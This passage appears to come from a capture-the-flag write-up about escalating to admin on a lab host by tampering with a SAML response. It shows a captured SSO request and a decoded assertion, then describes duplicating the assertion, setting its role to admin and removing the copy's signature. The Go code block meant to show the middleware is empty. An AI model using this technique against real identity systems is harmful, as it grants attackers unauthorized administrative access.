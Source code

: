 ```go
```

This code demonstrates how the middleware checks for an `admin` role within the SAML assertion attributes to grant access. If the `admin` role is missing, access is denied.

### Exploiting the Vulnerability

To exploit this vulnerability, we would have to intercept and modify the SAML response during the Single Sign-On (SSO) process. This is the SAML response:

```http
POST /saml/acs HTTP/1.1
Host: blueprint.neohub.htb
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 7985
Origin: null
Connection: close
Cookie: saml_PZfLTb...SNIP...
Upgrade-Insecure-Requests: 1

SAMLResponse=PHNhbWxwOlJlc3BvbnNlIHhtbG5zOnNhbWxwPSJ1cm46b2FzaXM6bmFtZXM6dGM6U0FNTDoyLjA6c...SNIP...
```

Upon receiving the base64 encoded `SAMLResponse`, we would decode it to find and manipulate the assertions:

```
xml
<samlp:Response xmlns:samlp="urn:oasis:names:tc:SAML:2.0:protocol" xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion" ...>
    <saml:Assertion ...>
        <saml:Attribute Name="Role" NameFormat="urn:oasis:names:tc:SAML:2.0:attrname-format:basic">
            <saml:AttributeValue>manage-account</saml:AttributeValue>
        </saml:Attribute>
        ...
    </saml:Assertion>
</samlp:Response>
```

According to the advisory we can exploit it by duplicating the `Assertion` block and modifying the role to `admin`, then removing the digital signature from the duplicated assertion, we could inject unauthorized roles. This modification, if not properly checked by the application, could allow an attacker to escalate privileges to an admin without valid credentials.

And we are logged in
